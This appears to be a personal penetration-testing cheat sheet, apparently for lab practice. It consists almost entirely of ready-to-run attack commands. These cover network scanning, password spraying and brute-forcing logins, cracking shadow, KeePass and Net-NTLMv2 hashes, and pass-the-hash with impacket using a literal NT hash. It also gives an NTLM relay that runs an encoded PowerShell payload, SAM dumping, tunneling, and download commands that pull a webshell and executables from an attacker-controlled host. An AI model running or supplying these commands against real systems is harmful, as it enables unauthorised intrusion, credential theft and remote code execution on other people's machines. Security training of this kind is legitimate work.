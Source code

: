 **NMAP**
  nmap sweep scan 
  - nmap -sP 10.10.155.1-225
  Most used nmap scan
  - nmap -p- -A -T4 -sV 10.10.155.5

  THREADER3000
cp ~/Files/Tools/threader3000/threader3000.py .

**Nikto**
nikto -h http://10.10.122.227

**Weak Credentials**

kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

##Validating the Credentials with CrackMapExec
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

HTTP Brute Force

wfuzz POST
wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php

hydra POST
hydra 192.168.30.161 -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20

wfuzz NTLM
wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https://<ip>/api

wfuzz Basic Auth through Proxy
wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/Activos/names.txt -z file,/root/Documents/Audits/Activos/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https://<ip>/api/v1/

**Password Cracking**

zip
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip 

/etc/shadow
unshadow passwd shadow > passwords
john --wordlist=/usr/share/wordlists/rockyou.txt passwords

keepass
keepass2john /root/Desktop/NewDatabase.kdb > file
john -incremental:alpha -format=keepass file

**Linux Privilege Escalation**
id
sudo -l
sudo -i
uname -a
find / -writable -type d 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
grep -Rni . -e 'password' // search for interesting string recursively in files.
Run Linpeas
Run pspy64
sudo -V
run lse.sh
Kernel Exploits
OS Exploits
Password reuse (mysql, .bash_history, 000-default.conf...)
Known binaries with suid flag and interactive (nmap)
Custom binaries with suid flag either using other binaries or with command execution
Writable files owned by root that get executed (cronjobs)
MySQL as root
Vulnerable services (chkrootkit, logrotate)
Writable /etc/passwd
Readable .bash_history
SSH private key
Listening ports on localhost
/etc/fstab
/etc/exports
/var/mail
Process as other user (root) executing something you have permissions to modify
SSH public key + Predictable PRNG
apt update hooking (Pre-Invoke)
Capabilities

**Windows Privilege Escalation**
Kernel Exploits
OS Exploits
Pass The Hash
Password reuse
DLL hijacking (Path)
Vulnerable services
Writable services binaries path
Unquoted services
Listening ports on localhost
Registry keys

**Situational Awareness**
C:\> whoami /groups
PS C:\> Get-LocalUser
PS C:\> Get-LocalGroup
PS C:\> Get-LocalGroupMember Administrators
C:\> systeminfo
C:\> ipconfig /all
C:\> route print
C:\> netstat -ano

**Hidden in Plain View**
PS C:\> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
PS C:\> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
PS C:\> Get-Process
PS C:\> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
PS C:\> Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
PS C:\> Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
C:\> net user steve
C:\> runas /user:backupadmin cmd

**Information Gathering Powershell**
PS C:\> Get-History
PS C:\> (Get-PSReadlineOption).HistorySavePath

**Passing NTLM**
kali@kali:~$ smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

kali@kali:~$ impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

kali@kali:~$ impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

**Cracking Net-NTLMv2**
kali@kali:~$ sudo responder -I tap0  C:\> dir \\IP_Kali\test

kali@kali:~$ hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force

**Relaying Net-NTLMv2**
kali@kali:~$ impacket-ntlmrelayx --no-http-server -smb2support -t IP_Target -c "powershell -enc JABjAGwAaQBlAG4AdA..."

when finding backup SAM and SYSTEM files in windows.old/Windows/system32

kali@kali:~$ impacket-secretsdump -sam SAM -system SYSTEM LOCAL > SAMhashes

**Tunneling & Port Forwarding**

**ligolo - https://github.com/nicocha30/ligolo-ng**
### Access to agent's local ports (127.0.0.1) https://github.com/nicocha30/ligolo-ng?tab=readme-ov-file#access-to-agents-local-ports-127001


 ./proxy -selfcert
 
sudo ip route add 172.16.1.0/24 dev ligolo

./agent -connect <ip>:11601 -ignore-cert

root@DANTE-WEB-NIX01:~# ./agent -connect 10.10.14.4:11601 -ignore-cert
WARN[0000] warning, certificate validation disabled

INFO[0000] Connection established   addr="10.10.14.4:11601"


**Reverse Shells**
https://www.revshells.com/
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

**Upgrade Shell**
python -c 'import pty;pty.spawn("/bin/bash")’

**HTTP Server**


**Windows File Transfer**

python3 -m http.server 

wget.exe http://<ip>/file -o file

certutil -urlcache -split -f  https://<ip>/file.txt -o file.txt

bitsadmin /transfer debjob /download /priority normal http://<ip>/shell.php c:\xampp\htdocs\shell.php

cscript wget.vbs http://<ip>/test.txt test.txt

powershell -c "(new-object System.Net.WebClient).Downloadfile('http://<ip>/exploit.exe', 'C:\Windows\temp\exploit.txt')"

ftp

client:

echo open [ip] [port] > ftpscript.txt
echo anonymous>> ftpscript.txt
echo PASS >> ftpscript.txt
echo bin >> ftpscript.txt
echo get meter.exe>> ftpscript.txt
echo quit >> ftpscript.txt
ftp -s:ftpscript.txt
server:

python -m pyftpdlib  --port=2121 --write

